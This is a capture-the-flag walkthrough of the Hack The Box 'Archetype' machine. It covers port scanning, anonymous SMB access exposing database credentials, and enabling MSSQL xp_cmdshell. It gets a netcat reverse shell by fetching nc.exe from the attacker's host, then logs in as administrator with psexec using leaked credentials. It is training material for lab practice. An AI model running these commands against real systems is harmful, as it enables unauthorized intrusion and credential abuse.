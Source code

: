 ```yaml
---
published: true
layout: post
---
```


This one was a classic, the room revolves around a misconfiguration in mssql that allows the user to enable_xp_cmdshell which opens a path to achieve remote code execution on the machine via xp_cmdshell. And a later exploitation of an unsecured important file that led to full access on the machine.  

  <br>
  <br>
  
## Information Gathering
---
### Starting with a port scan:
First we do a fast scan in order to identify what ports are up and running:   
**nmap 10.10.10.27 -p- -Pn --min-rate 1500 -vvv -oN AllPorts.txt**
![nmap.png]({{site.baseurl}}/images/nmap.png)


And after that we run a full scan on the ports that we have identified:    
 **sudo nmap 10.10.10.27 -p 135,139,445,1433,5985,47001 -sVC -O -v -oA FoundPorts.txt**

which gives us the following output:
![nmap2.png]({{site.baseurl}}/images/nmap2.png)


We can check the running services and see that the running OS is Windows. Even more, it seems to be running a Microsoft Windows Server between version 2008 R2 and 2012 which are known to have quite a handful of exploits. Only in 2021 there have been [186 exploits](https://stack.watch/product/microsoft/windows-server-2008/#:~:text=In%202021%20there%20have%20been,had%20382%20security%20vulnerabilities%20published.&text=However%2C%20the%20average%20CVE%20base,2021%20is%20greater%20by%200.42.) with an average CVE of 7.9 out of 10.

We also see **WinRM** (Windows Remote Management) that is a Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate.
[EvilWinRm](https://github.com/Hackplayers/evil-winrm) can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it. So we can say that it could be used in a post-exploitation hacking/pentesting phase. The purpose of this program is to provide nice and easy-to-use features for hacking. It can be used with legitimate purposes by system administrators as well but the most of its features are focused on hacking/pentesting stuff. 

<br>
<br>
<br>

## The SMB share
---
Having port 445 up hints me to try to connect to HTB Archetype using smb.

**smbclient -L 10.10.10.27**  
![smbp.png]({{site.baseurl}}/images/smbp.png)


Looks like we have found quite a few shares, even without using a password.
The most interesting share is "**backups**" which is also the only non-default share.  
Using **smbclient \\\\10.10.10.27\\backups** we can connect to this share.

We now have access to a config file **prod.dtsConfig** that  can be downloaded with: 
**get prod.dtsConfig**.
![smb2.png]({{site.baseurl}}/images/smb2.png)


The file was actually a lucky hit as it contains information about the backend database and also an username and password pair which can be used to gain a foothold on the box.

![file.png]({{site.baseurl}}/images/file.png)

<br>
<br>
<br>

## Obtaining a foothold
---
I am going to use the **impacket mssql client** from [SecureAuthCorp](https://github.com/SecureAuthCorp/impacket) in order to connect to the database.

### Installing steps
1. cd /opt  && sudo git clone https://github.com/SecureAuthCorp/impacket.git
2. cd impacket/
3. sudo pip3 install .
4. sudo python3 setup.py install

The command line goes as it follows:  
 **python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth**

_Note:  "-windows-auth" flag is very important since w/o it the shell won't be able to connect to the database._

This lands us in a what appears to be a SQL shell, running a few SQL commands seem to prove my hypothesis, now as with any other tool that you are not quite sure how it's supposed to be run, typing HELP is always a good option ;).

![sql.png]({{site.baseurl}}/images/sql.png)

As it looks like we have enough privileges to enable xp_cmdshell, so we go on and type **enable_xp_cmdshell;** and after that **reconfigure;**.


Now in order to see if we can run commands i'm going to try the following syntax: **xp_cmdshell powershell whoami /priv**, and this sure enough returns the Privileges information of the current user.
![shrll1.png]({{site.baseurl}}/images/shrll1.png)  

_Note: Pay attention to [SeImpersonatePrivilege](https://steflan-security.com/linux-privilege-escalation-token-impersonation/) as this will be important later, also it helps reading about [exploitable windows tokens](https://steflan-security.com/linux-privilege-escalation-token-impersonation/) if you're interested in privilege escalation techniques_

Now as we got a foothold we can either try to get a more stable shell, or proceed with this one. But for now this is enough to grab the user flag.
![FlagUser.png]({{site.baseurl}}/images/flag1.png)

<br>
<br>
<br>

## Escalating to a reverse shell
---
Escalating to a reverse shell in this scenario is pretty much trivial and can be done in a handful of ways.
The way i'm going to do it is by uploading an [old windows netcat executable](https://github.com/Ev3nS/Useful-Pentesting-Executables) that has the **-e flag** in order to spawn a powershell.exe and send it to my local listener.

### Uploading  nc.exe
1. Spawning a http server on desktop (where the executable is located):  
![httpServer.png]({{site.baseurl}}/images/httpServer.png)
2. Getting the executable on the machine with the command line:  
**xp_cmdshell powershell "wget http://YourIP:GivenPort/nc.exe -OutFile %temp%/nc.exe"**  
![SqlCommand.png]({{site.baseurl}}/Images/SqlCommand.png)


### Getting the shell
1. Spawning a local listener on port 4444 with the command line: **nc -lvnp 4444**
2. Running the uploaded executable as it follows: **xp_cmdshell  powershell "nc.exe YourIP YourPort -e cmd.exe"**  
![SqlCommand2.png]({{site.baseurl}}/Images/SqlCommand2.png)
3. Check if we got a hit on our local listener:  
![FirstCmdShell.png]({{site.baseurl}}/Images/FirstCmdShell.png)

<br>
<br>
<br>

## Escalating to a root shell
---
As of now, we have full access to a low privileged account, so a good thing to do is to enumerate what you can do with that account on the system. Also we know from the SMB chapter that this user can Impersonate Tokens, which means that we can take ownage of a process run by a higher privileged user on the system and create a privileged shell. This can be done via [Juicy-Potato exploit](https://github.com/ohpe/juicy-potato). But for the sake of this room i will go with an easier path, as this vulnerability will be exploited in a later post.

Once you gain access to a shell in general it is good to check a few things: what privileges you have, what processes are running, what is your ip, who else is on the box, what files you have access to, any weird files/binaries/executables that shouldn't be there, are there any notes or secret files that are left unprotected? what's the bash/batch history and so on.

Fortunately, while digging for the last accessed files i've found this peculiar file lying around:  		 

![oddfile.png]({{site.baseurl}}/images/oddfile.png)

As it looks like this file was actually pretty useful as it leaks the credentials of the administrator account:  
![creds.png]({{site.baseurl}}/images/creds.png)


Now as we have the credentials we can use a [python tool for PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) in order to remotely connect to the box as administrator:
![root.png]({{site.baseurl}}/Images/root.png)

All that is left to do now is to grab the root flag and we're done.    
![rootflang.png]({{site.baseurl}}/images/root2.png)

<br>
<br>
<br>

## Conclusions
---
On an ending note, i really liked this box for the fact that it promotes a good pentesting methodology, it's backbone is just a lot of enumeration and googling  and it offers a nice corelation between different services.

---
<center>
<script src="https://tryhackme.com/badge/39696"></script>
</center>
